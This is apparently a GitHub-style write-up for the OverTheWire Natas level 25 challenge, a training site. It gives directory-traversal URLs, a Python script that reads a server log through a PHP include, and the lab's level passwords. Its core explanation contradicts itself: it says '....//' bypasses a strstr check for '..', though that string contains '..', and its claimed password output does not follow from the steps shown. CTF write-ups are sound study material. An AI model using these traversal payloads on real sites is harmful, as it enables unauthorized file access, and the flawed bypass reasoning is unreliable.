 # Natas CTF Solutions  

## Natas Level 25  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Use **directory traversal** to read the log file containing the password.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas25.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas25`  
- **Password:** Use the password from Natas Level 24:  
```
ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
```  

![Home_Page](https://github.com/user-attachments/assets/b8849264-de23-4b04-a496-1a7ddee7608d)

---

### **Step 3: Analyze the Source Code**  
Key part of the code:  
```php
if(strstr($language, "..")) {
    print "Error: Illegal characters in language";
} else {
    include "languages/" . $language;
}
```

### **Understanding the Vulnerability**  
- The code tries to prevent directory traversal using `strstr($language, "..")`.  
- However, `....//` bypasses the check since `strstr()` only looks for `..` directly.  

![Source_Code](https://github.com/user-attachments/assets/c941a655-9e4e-42fd-8056-4155d4a1bd3a)

---

### **Step 4: Trigger Directory Traversal**  
To bypass the filter, use this payload:  
```http
http://natas25.natas.labs.overthewire.org/?lang=....//
```
➡️ This creates an error log at:  
```  
/var/www/natas/natas25/logs/natas25_<session_id>.log  
```

![Error](https://github.com/user-attachments/assets/008e052b-a7ab-4c4b-8f91-6a279f04cde6)

---

### **Step 5: Locate the Log File**  
1. Check cookies for `PHPSESSID`.  
2. Use directory traversal to access the log file:  

```http
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_<session_id>.log
```

✅ Example in Python:  
```python
import requests
from requests.auth import HTTPBasicAuth

username = "natas25"
password = "ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws"
url = "http://natas25.natas.labs.overthewire.org"

# Generate log file by triggering the error
payload = {'lang': '....//'}
session = requests.Session()
session.auth = (username, password)
session.get(url, params=payload)

# Read the log file
session_id = session.cookies['PHPSESSID']
log_file = f"....//....//....//....//....//var/www/natas/natas25/logs/natas25_{session_id}.log"
response = session.get(url, params={'lang': log_file})
print(response.text)
```

---

### **Step 6: Output**  
If successful, the output will reveal the password for the next level:  
```  
The password for natas26 is: cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE  
```  

![Output](https://github.com/user-attachments/assets/26a35ee9-b49f-4b15-be39-bb920ff7e959)

---

### **✅ Password for Natas Level 26**  
```
cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
```  

---

## 💡 **Lessons Learned**  
✔️ **Directory Traversal:** `strstr()` filter can be bypassed using double encoding or alternative patterns like `....//`.  
✔️ **Log File Injection:** Errors can generate log files that may expose sensitive information.  
✔️ **Session ID Use:** Log file names based on session IDs can create predictable attack vectors.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Source Code | ![Source_Code](https://github.com/user-attachments/assets/c941a655-9e4e-42fd-8056-4155d4a1bd3a) |  
| Step 5 – Found Password | ![image](https://github.com/user-attachments/assets/8030f399-90c5-4081-88e1-5a745d8e2cf9) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 26**:  
👉 [http://natas26.natas.labs.overthewire.org](http://natas26.natas.labs.overthewire.org)  

---
